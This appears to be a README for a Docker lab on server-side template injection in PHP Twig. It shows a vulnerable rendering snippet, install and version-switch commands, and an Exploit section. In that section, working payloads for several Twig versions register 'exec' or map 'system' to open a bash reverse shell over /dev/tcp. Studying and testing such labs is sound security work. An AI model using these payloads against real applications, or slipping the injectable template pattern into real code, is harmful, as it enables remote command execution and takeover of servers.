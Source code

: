 # PHP Twig

## Installation

```sh
$ docker run --rm -it ovotreeovo/php-twig
# php /var/www/html/1.php "{{ <payload-here> }}"
```

## Vulnerable Source

### current Twig version: v1.44.1
```php
require_once '/path/to/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello <code-here>!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index');
```

### Switch to other version:

```bash
# php /var/www/html/composer.phar require "twig/twig:^2.0"
```

## Exploit

### <= 1.19

```php
_self.env.registerUndefinedFilterCallback('exec')
_self.env.getFilter('/bin/bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"')
```


### >= 1.41, >= 2.10, 3.X

```php
['/bin/bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"']|map('system')|join(',')
```

## Reference

- https://xz.aliyun.com/t/7518
- https://twig.symfony.com/doc/3.x/intro.html#installation

